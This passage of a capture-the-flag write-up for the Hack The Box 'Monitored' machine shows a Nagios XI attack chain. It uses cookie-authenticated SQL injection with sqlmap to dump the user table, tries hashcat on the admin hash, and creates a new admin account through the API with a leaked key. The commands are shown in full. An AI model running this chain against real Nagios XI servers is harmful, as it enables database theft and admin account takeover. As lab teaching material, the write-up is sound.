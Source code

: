Placing `&token=<token>` after the ID field allows me to use my token for authentication. Unfortunately, the token I received earlier is one time use only. I won't be able to use automated tools for the SQL injection. 

```
curl -X POST "http://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" -d "action=acknowledge_banner_message&id=3&token=e91ef72bc6d1e00c8.................."
```

```
Set-Cookie: nagiosxi=17ff00phbve1cri86ni4dgnn2m; expires=Fri, 26-Apr-2024 03:21:58 GMT; Max-Age=1800; path=/; secure; HttpOnly
```

To my delight, the response I received back contained a semi persistent cookie! After some testing, I find that it allows me to authenticate to `nagios.monitored.htb/nagiosxi` without a password. This is great because it means I can leverage sqlmap for the SQL injections. From my research I know that Nagios XI uses MariaDB, which is a fork of MySQL. I also know the prefix for the sql database is `xi_` due to documentation and forum posts. With these two pieces of information, I crafted a command to dump the user table. 

```
sqlmap -u https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php --data 'action=acknowledge_banner_message&id=3' --cookie 'nagiosxi=dg4f2gmil0qr7qigcrbdbe7sfe' -p id --risk 3 --level 5 --dbms=MySQL -T xi_users --dump
```

The dump revealed the admin credentials:

```
 admin@monitored.htb
 APIKey:IudGPHd9pEKiee................................
 Password: $2a$10$825c1eec2.............................
 BackendTicket:IoAaeXNL......................
```

I'm curious to see if I can crack the password, so I load the hash into hashcat.

```
hashcat "Z:\HTB\VirtualBox VMs\Kali\Share\hashes.txt" -m 3200 --opencl-device-types=1,2 Z:\HTB\Wordlists\rockyou.txt -r rules/best64.rule 
```

Unfortunately, the hash didn't crack. From here I focused on the API key and the backend ticket. 

### Creating a Nagios Admin User

While researching, I found [a script on exploit-db](https://www.exploit-db.com/exploits/51925) that was meant to streamline the SQL injection. I was already past that point, but while reading through it I noticed that it contained a ton of useful information about the API. I also found[ a forum post](https://support.nagios.com/forum/viewtopic.php?t=42923) that described how to add a user to Nagios XI. It didn't mention how to make an admin user, but after reviewing the exploit-db script, I knew that simply adding auth_level=admin would grant admin permissions. 

```
curl -X POST "http://10.10.11.248/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=test&password=test&name=test&email=t@monitored.htb&auth_level=admin" 
```
